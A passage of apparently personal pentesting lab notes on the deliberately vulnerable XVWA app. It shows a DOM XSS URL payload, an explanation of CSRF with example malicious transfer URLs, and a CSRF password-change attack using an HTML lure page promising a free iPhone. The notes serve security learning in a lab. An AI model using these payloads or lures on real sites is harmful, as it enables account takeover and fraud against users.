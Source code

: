 ```
http://192.168.101.120/xvwa/vulnerabilities/dom_xss/?search=<img src=X onerror=alert('abc');>
```







## Cross Site Request Forgery

- is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a Little help of social engineering (such as sending a Link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing.
- If the victim is a normal user, a successful CSRF attack can force the user to perform state
  changing requests Like transferring funds, changing their email address, and so forth.
- If the victim is an administrative account, CSRF can compromise the entire web application”.



**CSRF Attack conditions**

* The victim must be logged in to the target website

* The attacker must trick the victim to execute a specially crafted URL

  LEGITIMATE USER REQUEST:
  http://site.com/transfer.do?toacctno=934323226&amount=1000 

  MALICIOUS REQUEST:

  http://site.com/account 

  http://site.com/transfer.do?toacctno=83442342&amount=10000(



**Changing password in xvwa**

1. Get the URL using Burpsuite in the CSRF in xvwa website (Make sure you are login to the xvwa website)

   ```
   http://192.168.101.112/xvwa/vulnerabilities/csrf/?passwd=test&confirm=test&submit=submit
   ```

2. Create csrf.html in /var/www/html

   **GET method**

   ```
   <html>
   <body>
   <center>
   	<h1>A chance to win a free iPhone</h1>
   	<br>
   	<br>
   	<a href="http://192.168.101.112/xvwa/vulnerabilities/csrf/?passwd=test&confirm=test&submit=submit">I want to participate</a>
   </center>
   </body>
   </html>
   ```
